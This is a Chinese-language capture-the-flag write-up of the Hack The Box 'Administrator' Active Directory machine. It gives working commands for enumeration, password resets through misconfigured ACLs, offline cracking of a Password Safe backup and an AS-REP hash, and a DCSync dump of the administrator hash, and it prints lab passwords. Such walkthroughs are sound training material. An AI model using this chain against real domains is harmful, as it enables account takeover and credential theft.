# 域渗透入门靶机之HTB-Administrator-先知社区

> **来源**: https://xz.aliyun.com/news/16087  
> **文章ID**: 16087

---

  
As is common in real life Windows pentests, you will start the Administrator box with credentials for the following account: Username: Olivia Password: ichliebedich  
获得凭据：Olivia:ichliebedich

#### 信息收集

##### 端口探测

```
nmap -sT --min-rate 10000 -p- 10.10.11.42 -oA ./port
```



端口过多，优化一下在进行端口详细扫描



对这些端口进行详细扫描，从49303往下的端口为动态随机端口，实际意义不大，但为了严谨，还是选择全部扫描



##### 端口利用

###### ftp服务利用

首先想到匿名登录及先前给的凭据



未利用成功，但感觉这个端口里是有东西的，等后续获得一些凭据可在做尝试

###### smb服务利用

也是首先尝试匿名登录及先前给的凭据进行利用





Olivia用户有三个可读的文件夹，但枚举后发现除了一些配置文件，无可利用文件

##### 有效用户枚举

其实当给了一组凭据，可以借助bloodhound对AD进行信息收集，但我还是按照我的思路先找一下当前我可以找到的有效用户

###### 借助kerbrute爆破有效用户

```
./kerbrute_linux_amd64 userenum --dc 10.10.11.42 -d administrator.htb /usr/share/wordlists/amass/subdomains-top1mil-110000.txt
```



###### 借助crackmapexec爆破有效用户

```
crackmapexec smb 10.10.11.42 -u olivia -p 'ichliebedich' --rid-brute | grep 'SidTypeUser'
```



将两组数据结合我们最终获得了

```
Administrator 
Guest 
krbtgt 
DC$ 
olivia 
michael 
benjamin 
emily 
ethan 
alexander 
emma
```

#### Bloodhound利用

这里简单介绍一下bloodhound使用前的准备工作

```
sudo apt install bloodhound  安装主程序
sudo apt install bloodhound.py 安装采集器
使用前也需配置数据库neo4j
默认账号密码：neo4j/neo4j
打开所给的url重新设置一下密码
```

```
bloodhound-python -c All -u Olivia -p ichliebedich -ns 10.10.11.42 -d administrator.htb -dc administrator.htb --zip
......................
-c All 搜集所有可用信息
-ns 指定用于DNS查询的域名服务器的地址
-d 指定要查询的域名
-dc 指定域控制器
--zip 指定数据格式
```





将zip上传，导入成功即可开始分析  
因为我们已经获得了Olivia的凭据，这时我们要想怎么通过这个用户去提权，经过搜集，我们发现这个用户对Michael拥有GenericAll权限，我们可以修改Michael的密码，这样我们又获得了一个用户凭据，然后在Michael的基础上继续枚举，发现对Benjamin拥有ForceChangePassword权限，也可以借此去修改Benjamin用户的密码

```
修改Michael密码：
通过evil-winrm -i 10.10.11.42 -u Olivia -p 'ichliebedich'登录
net user Michael 12345678 /DOMAIN
```

修改Benjamin密码



未利用成功，上网学习了一下，找到了多种修改方式在此列出

```
rpcclient -U Michael //10.10.11.42
setuserinfo2 Benjamin 23 '12345678'
................
bloodyAD -u "Michael" -p "12345678" -d "administrator.htb" --host "10.10.11.42" set password "Benjamin" "12345678"
```

##### ftp再探！

现在手里有三个凭据，但Benjamin用户无法登录上winrm，再次枚举，去枚举smb，ftp，最终在Benjamin用户的ftp服务下发现突破点



备份文件，但后缀为psafe3，很明显做了加密，我们可以借助pwsafe2john进行破解

```
pwsafe2john Backup.psafe3 > pwsafe.hash
john --wordlist=/usr/share/wordlists/rockyou.txt pwsafe.hash
成功破解出密码tekieromucho
```



对于Backup.psafe3文件我们可以用Password Safe或者KeePassXC去打开  
在这里我们选择使用PasswordSafe打开



获得三组凭据：

```
alexander:UrkIbagoxMyUGw0aPlj9B0AXSea4Sw
emily:UXLCI5iETUsIBoFVTj8yQFKoHjXmb
emma:WwANQWnmJnGV07WQN8bMS7FMAbjNur
```

#### 建立立足点

结合前面，我们现在手里有了6组凭据，枚举！  
最终在emily的Desktop下发现user.txt



#### 权限提升

通过bloodhound的分析，发现emily对ethan用户有GenericWrite权限

##### 滥用GenericWrite权限实现横向移动

参考：<https://cloud.tencent.com/developer/article/2215108>



使用emily登上winrm

```
Get-ADUser ethan | Set-ADAccountControl -doesnotrequirepreauth $true
对 AD 中的用户 ethan 账户禁用 Kerberos 预身份验证
```

这样之后就简单了，可以借助GetNPUsers去获得hash

```
impacket-GetNPUsers administrator.htb/ethan -dc-ip 10.10.11.42
...............
hashcat -m 18200 ethan.hash /usr/share/wordlists/rockyou.txt --force
获得凭据ethan:limpbizkit
```





##### DCSync 攻击利用

我们看一下ethan的First Degree Object Control  
发现DCSync：



参考：<https://www.freebuf.com/articles/network/286137.html>


```
impacket-secretsdump administrator.htb/ethan:limpbizkit@10.10.11.42 -dc-ip 10.10.11.42 -just-dc-user administrator
```



成功获得administrator的hash

##### root！

```
